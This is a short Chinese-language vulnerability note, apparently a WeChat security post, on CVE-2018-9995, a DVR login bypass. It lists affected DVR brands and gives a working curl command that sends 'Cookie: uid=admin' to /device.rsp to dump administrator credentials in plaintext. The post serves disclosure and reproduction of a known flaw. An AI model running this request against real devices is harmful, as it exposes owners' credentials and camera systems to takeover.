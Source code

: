 #  DVR-登录绕过漏洞-CVE-2018-9995   
原创 骇客安全  骇客安全   2025-02-28 16:01  
  
## 漏洞描述  
  
DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。  
  
## 漏洞影响  
```
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: "XVR Login")
Securus, - Security. Never Compromise !! -
Night OWL
DVR Login
HVR Login
MDVR Login
```  
  
## 漏洞复现  
  
使用curl命令获得账号密码  
  
```
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991OK5H7iaQX5vI9HXtia1oerI5pPPg146hH9H6pIeGAKYXTAa8oHCsNOPj9lwEp70XBeNf0Swib70ze2Q/640?wx_fmt=png&from=appmsg "null")  
  
  
